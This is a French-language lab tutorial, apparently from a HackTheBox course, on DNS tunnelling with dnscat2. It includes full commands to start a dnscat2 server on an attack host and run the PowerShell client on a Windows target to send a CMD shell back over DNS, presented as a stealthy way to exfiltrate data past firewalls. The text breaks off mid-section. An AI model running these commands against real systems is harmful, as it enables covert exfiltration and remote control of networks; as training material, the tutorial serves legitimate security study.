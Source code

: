 Tunnellisation DNS avec Dnscat2
==========================

* * * * *

[Dnscat2](https://github.com/iagox86/dnscat2) est un outil de tunnellisation qui utilise le protocole DNS pour envoyer des données entre deux hôtes. Il utilise un canal `Command-&-Control` (`C&C` ou `C2`) chiffré et envoie des données dans des enregistrements TXT au sein du protocole DNS. Habituellement, chaque environnement de domaine Active Directory dans un réseau d'entreprise aura son propre serveur DNS, qui résoudra les noms d'hôte en adresses IP et acheminera le trafic vers des serveurs DNS externes participant au système DNS global. Cependant, avec dnscat2, la résolution d'adresse est demandée à un serveur externe. Lorsqu'un serveur DNS local tente de résoudre une adresse, les données sont exfiltrées et envoyées sur le réseau au lieu d'une requête DNS légitime. Dnscat2 peut être une approche extrêmement furtive pour exfiltrer des données tout en évitant les détections de pare-feu qui suppriment les connexions HTTPS et reniflent le trafic. Pour notre exemple de test, nous pouvons utiliser le serveur dnscat2 sur notre hôte d'attaque et exécuter le client dnscat2 sur un autre hôte Windows.

* * * * *

Configuration et utilisation de dnscat2
--------------------------

Si dnscat2 n'est pas déjà configuré sur notre hôte d'attaque, nous pouvons le faire en utilisant les commandes suivantes :

#### Clonage dnscat2 et configuration du serveur

Clonage de dnscat2 et configuration du serveur

```
dsgsec@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
gem install bundler
bundle install

```

Nous pouvons ensuite démarrer le serveur dnscat2 en exécutant le fichier dnscat2.

#### Démarrage du serveur dnscat2

Démarrage du serveur dnscat2

```
dsgsec@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

New window created: 0
dnscat2> New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 10.10.14.18:53
[domains = inlanefreight.local]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=0ec04a91cd1e963f8c03ca499d589d21 inlanefreight.local

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=0ec04a91cd1e963f8c03ca499d589d21

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

```

Après avoir exécuté le serveur, il nous fournira la clé secrète, que nous devrons fournir à notre client dnscat2 sur l'hôte Windows afin qu'il puisse authentifier et chiffrer les données envoyées à notre serveur dnscat2 externe. Nous pouvons utiliser le client avec le projet dnscat2 ou utiliser [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), un client basé sur PowerShell compatible dnscat2 que nous pouvons exécuter à partir de cibles Windows pour établir un tunnel avec notre serveur dnscat2. Nous pouvons cloner le projet contenant le fichier client sur notre hôte d'attaque, puis le transférer sur la cible.

#### Clonage de dnscat2-powershell sur l'hôte d'attaque

Clonage de dnscat2-powershell sur l'hôte d'attaque

```
dsgsec@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git

```

Une fois le fichier `dnscat2.ps1` sur la cible, nous pouvons l'importer et exécuter les cmdlets associés.

#### Importation de dnscat2.ps1

Importation de dnscat2.ps1

```
PS C:\htb> Import-Module .\dnscat2.ps1

```

Une fois dnscat2.ps1 importé, nous pouvons l'utiliser pour établir un tunnel avec le serveur exécuté sur notre hôte d'attaque. Nous pouvons renvoyer une session shell CMD à notre serveur.

Importation de dnscat2.ps1

```
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

```

Nous devons utiliser le secret pré-partagé (`-PreSharedSecret`) généré sur le serveur pour nous assurer que notre session est établie et cryptée. Si toutes les étapes sont terminées avec succès, nous verrons une session établie avec notre serveur.

#### Confirmation de l'établissement de la session

Confirmation de l'établissement de la session

```
Nouvelle fenêtre créée : 1
Séance 1 Sécurité : CRYPTÉE ET VÉRIFIÉE !
(la sécurité dépend de la force de votre secret pré-partagé !)

dnscat2>

```

Nous pouvons répertorier les options dont nous disposons avec dnscat2 en saisissant `?` à l'invite.

#### Liste des options dnscat2

Liste des options dnscat2

```
dnscat2> ?

Voici une liste de commandes (utilisez -h sur l'une d'entre elles pour une aide supplémentaire) :
* écho
* aider
* tuer
* arrêter
* ensemble
* commencer
* arrêt
* tunnels
* non défini
* fenêtre
* les fenêtres

```

Nous pouvons utiliser dnscat2 pour interagir avec les sessions et aller plus loin dans un environnement cible sur les engagements. Nous ne couvrirons pas toutes les possibilités avec dnscat2 dans ce module, mais il est fortement encouragé de s'entraîner avec lui et peut-être même de trouver des façons créatives de l'utiliser lors d'un engagement. Interagissons avec notre session établie et plongeons dans un shell.

#### Interagir avec la session établie

Interagir avec la session établie

``